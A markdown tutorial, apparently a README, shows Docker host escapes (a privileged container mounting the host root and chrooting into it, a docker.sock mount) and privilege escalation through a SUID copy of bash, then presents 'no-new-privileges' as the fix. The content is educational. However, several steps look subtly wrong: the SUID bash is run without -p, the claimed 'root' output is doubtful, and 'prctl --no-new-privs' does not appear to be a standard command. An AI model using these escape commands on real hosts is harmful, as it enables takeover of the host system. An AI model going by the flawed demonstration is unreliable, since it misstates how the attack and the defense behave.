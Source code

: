 
# Host Machine Privilege Escalation Attempt


## Unsave Container Mounting docker.sock in container  
```bash
docker run -it --rm --privileged -v /:/mnt ubuntu:24.04 bash
ls /mnt
cat /mnt/etc/passwd

chroot /mnt /bin/bash (You’re now effectively in the host filesystem as root)

Docker socket escape

docker run -it -v /var/run/docker.sock:/var/run/docker.sock docker:24.0.5 sh
docker ps (inside container we can run)
docker run -it --rm --privileged ubuntu:24.04 bash (Launh Container)
```
### Output:  Hacker Can Run Docker Commands from inside the container

## Goal
Demonstrate how a normal user could try to gain root access on a Linux host, and how `no-new-privileges` can prevent it.

---

## Step 1: Create a Normal User
```bash
sudo useradd -ms /bin/bash testuser
sudo passwd testuser
su - testuser
```
- `testuser` is a normal user.  
- Normal users should **not be able to perform root-only tasks**.

---

## Step 2: Try a Root-Only Command
```bash
ls /root
```
- Output:
```
ls: cannot open directory '/root': Permission denied
```
- Result: Normal user cannot access root files 

---

## Step 3: Simulate a Vulnerable Program
Some programs have **SUID permission**, which can let normal users become root.

```bash
sudo cp /bin/bash /tmp/bash-root
sudo chmod +s /tmp/bash-root
```
- `/tmp/bash-root` can now run **as root** if executed.

---

## Step 4: Test Privilege Escalation
As `testuser`:
```bash
/tmp/bash-root -c "whoami"
```
- Output: `root` → dangerous!  
- Explanation: Any normal user could now become root.

---

## Step 5: Protect with `no-new-privileges`
`no-new-privileges` prevents processes from gaining extra privileges.

1. Run a new bash shell with protection:
```bash
sudo unshare --pid --fork --mount-proc bash
prctl --no-new-privs
```

2. Test the same SUID binary:
```bash
/tmp/bash-root -c "whoami"
```
- Output: `testuser` → cannot become root 


---

## Step 6: Explanation
- **Without `no-new-privileges`:** Vulnerable programs can give users root → host at risk.  
- **With `no-new-privileges`:** Users cannot gain extra privileges → host is safer.

---



## Summary Table

| Scenario                     | Result Without Protection | Result With `no-new-privileges` |
|-------------------------------|--------------------------|--------------------------------|
| Normal user runs root command | Fails                    | Fails                          |
| User runs SUID binary         | Succeeds → becomes root  | Fails                          |
| Risk                          | High                     | Low                            |
